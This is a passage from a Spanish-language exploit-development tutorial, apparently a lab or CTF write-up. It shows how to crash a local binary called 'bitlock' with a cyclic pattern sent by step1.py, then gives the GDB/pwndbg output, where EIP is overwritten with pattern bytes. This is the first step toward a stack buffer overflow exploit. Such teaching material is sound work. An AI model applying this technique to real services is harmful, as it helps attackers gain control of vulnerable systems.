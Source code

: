 Antes de ejecutar el script, inicia la aplicación en `GDB` (preferentemente con `pwndbg`):

> gdb (pwndbg)

```shell
run
```

Ahora en el `host` ejecutamos:

```shell
python3 step1.py
```

**Resultado esperado en GDB:** La aplicación debería mostrar un error de segmentación (`SIGSEGV`), indicando que el buffer fue desbordado. Observa el valor de `EIP` en los registros, que reflejará parte del patrón enviado.

Y en el `GDB` veremos algo asi:

```
Starting program: /home/kali/Desktop/spain/bitlock 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Esperando conexiones en el puerto 9000...
************************
* Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
0 *
************************

Program received signal SIGSEGV, Segmentation fault.
0x61413761 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 EAX  0xffffce26 ◂— 0x41306141 ('Aa0A')
 EBX  0x35614134 ('4Aa5')
 ECX  0xffffcfe0 ◂— 'm9An0An1An2A\r\n0'
 EDX  0xffffcfaa ◂— 'm9An0An1An2A\r\n0'
 EDI  0xffffd25c ◂— 0x10
 ESI  0xffffd36c —▸ 0xffffd51b ◂— 'COLORTERM=truecolor'
 EBP  0x41366141 ('Aa6A')
 ESP  0xffffce40 ◂— 0x39614138 ('8Aa9')
 EIP  0x61413761 ('a7Aa')
─────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────
Invalid address 0x61413761










──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffce40 ◂— 0x39614138 ('8Aa9')
01:0004│     0xffffce44 ◂— 0x41306241 ('Ab0A')
02:0008│     0xffffce48 ◂— 0x62413162 ('b1Ab')
03:000c│     0xffffce4c ◂— 0x33624132 ('2Ab3')
04:0010│     0xffffce50 ◂— 0x41346241 ('Ab4A')
```